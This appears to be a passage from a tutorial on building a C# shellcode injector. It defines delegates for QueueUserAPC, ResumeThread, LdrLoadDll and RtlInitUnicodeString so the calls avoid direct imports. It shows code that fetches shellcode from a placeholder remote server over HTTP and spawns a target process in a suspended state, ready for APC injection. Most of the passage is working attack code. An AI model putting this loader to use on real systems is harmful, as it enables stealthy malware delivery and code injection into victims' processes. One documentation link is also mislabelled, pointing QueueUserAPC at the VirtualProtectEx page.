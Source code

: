 Creating delegate for [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex)
```C#
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate IntPtr QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);
```

Creating delegate for [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)
```C#
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate uint ResumeThread(IntPtr hThhread);
```

Creating delegate for `LdrLoadDll` (This is an undocumented native API, go to http://undocumented.ntinternals.net/ and search for LdrLoadDll)
```C#
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate UInt32 LdrLoadDll(IntPtr PathToFile, UInt32 dwFlags, ref STRUCTS.UNICODE_STRING ModuleFileName, ref IntPtr ModuleHandle);
```

Creating delegate for [RtlInitUnicodeString](https://www.pinvoke.net/default.aspx/ntdll/RtlInitUnicodeString.html)
```C#
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate void RtlInitUnicodeString(ref STRUCTS.UNICODE_STRING DestinationString, [MarshalAs(UnmanagedType.LPWStr)] string SourceString);
```

We can now start invoking the APIs through the delegates in our Main() function.
We can either store our (encrypted)shellcode on within the assembly or download it from a remote server.
To download the shellcode from a remote server, we need the `System.Net.Http` namespace, and create a `HttpClient`:
```C# 
byte[] shellcode;
using (var recv = new HttpClient()) {
  shellcode = recv.GetByteArrayAsync("https://x.x.x.x/shellcode.bin").GetAwaiter().GetResult();
}
``` 

`startInfo` and `procInfo` store process information such as process handle and thread handle:
```C#
STRUCTS.STARTUPINFO startInfo = new STRUCTS.STARTUPINFO();
STRUCTS.PROCESS_INFORMATION procInfo = new STRUCTS.PROCESS_INFORMATION();
```

Invoke Create Process through its delegate:
```C#
IntPtr pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "CreateProcessA");
DELEGATES.CreateProcess createProc = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.CreateProcess)) as DELEGATES.CreateProcess;
// Spawn new process in suspended state
bool yayornay = createProc("process_path_here", null, IntPtr.Zero, IntPtr.Zero, false, STRUCTS.ProcessCreationFlags.CREATE_SUSPENDED,
IntPtr.Zero, null, ref startInfo, out procInfo);
```
